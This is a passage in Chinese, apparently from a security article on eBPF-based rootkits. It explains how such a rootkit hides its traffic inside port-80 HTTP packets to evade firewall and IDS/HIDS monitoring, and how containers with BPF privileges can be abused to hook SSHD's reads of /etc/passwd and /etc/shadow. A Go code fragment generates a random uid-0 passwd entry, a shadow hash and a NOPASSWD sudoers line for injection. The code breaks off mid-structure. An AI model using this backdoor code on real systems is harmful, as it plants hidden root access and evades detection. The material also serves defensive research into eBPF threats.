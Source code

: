
#### 危害


这个rootkit不主动创建Socket，借用其中一个网络发送包，把消息送达给后门使用者。对系统影响来说，只是一个不起眼的小网络响应。在万千HTTP包里，根本定位不到。



1. **iptables防火墙绕过**：利用对外开放的80端口作为通信隧道；
2. **WebIDS绕过**：流量到达服务器后，并不传递给Nginx；
3. **NIDS绕过**：入侵者流量在局域网之间流传并无异常，只是无法解密；
4. **HIDS绕过**：是否信任了防火墙，忽略了本机/局域网来源的SSHD登录。


### Linux系统运行时恶意利用


云原生生态下，涌现大批基于eBPF技术实现的集群网络管理插件，比如Calico、Cilium等。而业务实现网络管理服务是以容器化方式部署，且有需要给这些容器启用SYS\_BPF\_ADMIN权限以支持eBPF系统调用。这些服务的运行环境，也给攻击者留下一个完美的发挥空间。



#### 实现流程


回顾eBPF的hook点，作用在syscall的kprobe、tracepoint事件类型，倘若用在后门rootkit场景，是十分可怕的。比如修改内核态返回给用户态的数据、拦截阻断用户态行为等，为所欲为。而更可怕的是，常见的HIDS都是基于内核态或者用户态做行为监控，eBPF恰恰绕开了大部分HIDS的监控，且不产生任何日志，简直让人“细思极恐、不寒而栗”。



**tracepoint事件类型hook**



在SSHD应用中，当用户登录时，会读取/etc/passwd等文件。用户态SSHD程序，调用open、read等系统调用，让内核去硬件磁盘上检索数据，再返回数据给SSHD进程。



**用户态生成payload**



用户态实现/etc/passwd、/etc/shadow等文件payload的生成，并通过eBPF的RewriteConstants机制，完成对ELF .rodata的字段值替换。



```go
import "github.com/ehids/ebpfmanager"

//  通过elf的常量替换方式传递数据
func (e *MBPFContainerEscape) constantEditor() []manager.ConstantEditor {
	var username = RandString(9)
	var password = RandString(9)
	var s = RandString(8)

	salt := []byte(fmt.Sprintf("$6$%s", s))
	// use salt to hash user-supplied password
	c := sha512_crypt.New()
	hash, err := c.Generate([]byte(password), salt)
    
	var m = map[string]interface{}{}
	res := make([]byte, PAYLOAD_LEN)
	var payload = fmt.Sprintf("%s ALL=(ALL:ALL) NOPASSWD:ALL #", username)
	copy(res, payload)
	m["payload"] = res
	m["payload_len"] = uint32(len(payload))

    // 生成passwd字符串
	var payload_passwd = fmt.Sprintf("%s:x:0:0:root:/root:/bin/bash\n", username)
	// 生成shadow字符串
	var payload_shadow = fmt.Sprintf("%s:%s:18982:0:99999:7:::\n", username, hash)
	
    // eBPF RewriteContants
    var editor = []manager.ConstantEditor{
		{
			Name:          "payload",
```